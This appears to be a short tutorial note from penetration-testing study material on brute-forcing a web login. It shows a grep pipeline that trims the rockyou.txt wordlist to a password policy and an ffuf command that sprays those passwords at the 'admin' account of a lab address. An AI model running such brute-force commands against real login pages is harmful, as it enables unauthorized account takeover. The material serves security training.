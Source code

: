 # Brute-Forcing Passwords
***
#### To execute a successful brute-force attack we need to use a good wordlist , ensuring that it only contains passwords that match the implemented password policy.
#### For example, the famous wordlist `rockyou.txt` has more than 14 million passwords, Whe can use `grep` to match only those passwords that match the password policy implemented by the target .
```bash
$ grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

#### Finally, we can use **ffuf** to perform the brute-force attack on the password field.
```bash
$ ffuf -w ./custom_wordlist.txt -u http://172.123.123.123/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```